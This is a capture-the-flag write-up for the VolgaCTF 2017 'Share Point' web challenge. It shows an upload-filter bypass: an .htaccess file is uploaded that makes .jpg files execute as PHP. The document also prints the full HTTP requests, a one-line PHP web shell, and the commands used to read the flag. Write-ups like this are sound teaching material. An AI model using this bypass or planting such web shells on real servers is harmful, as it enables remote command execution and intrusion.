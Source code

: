 # Share Point - web 200

Author: [@mjdubell](https://twitter.com/mjdubell)

```
Share Point

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```


The challenge begun by signing in to the control panel by simply entering random account details. Once logged in you had the ability to upload files and share them with an other user. Since the site only had one functionality, uploading files, I assumed the goal had to be to upload a web shell and find the flag on the file system.

Uploading files with a `.php` extension got rejected. I tried some tricks when trying to upload my `shell.php`:

* Chaning the Content Type to `image/jpeg`.
* Injecting null values in the filename `shell.php\00.gif`.
* Uploading a file with the magic headers of a gif file.

Next I tried to upload an `.htaccess` file with the following contents `AddType application/x-httpd-php .jpg`, this would cause `.jpg` files to executed as `.php` files, and it worked!

The following code snippet shows the HTTP POST request from Burp Suite when uploading the `.htaccess` file and the following `shell.php.jpg`. 
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 271
Content-Type: multipart/form-data; boundary=---------------------------1620217569904038223723611436
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------1620217569904038223723611436
Content-Disposition: form-data; name="userFile"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .jpg

-----------------------------1620217569904038223723611436--
```


```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 256
Content-Type: multipart/form-data; boundary=---------------------------5375118911646132755521388984
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------5375118911646132755521388984
Content-Disposition: form-data; name="userFile"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>

-----------------------------5375118911646132755521388984--
```

Once we have uploaded the shell, we can start looking for the flag on the file system.

```
http://share-point.quals.2017.volgactf.ru/files/Smacker1/shell.php.jpg?cmd=ls -lah

total 24K
drwxr-xr-x   2 www-data www-data 4.0K Mar 27 00:05 .
drwxr-xr-x 252 www-data www-data  12K Mar 27 00:04 ..
-rw-r--r--   1 www-data www-data   37 Mar 27 00:04 .htaccess
-rw-r--r--   1 www-data www-data   31 Mar 27 00:05 shell.php.jpg
```

By pure luck I checked the `/opt/` folder and found `flag.txt`. Otherwise I would have simply searched for "flag".

```
http://share-point.quals.2017.volgactf.ru/files/shell.php.jpg?cmd=cat /opt/flag.txt
VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```


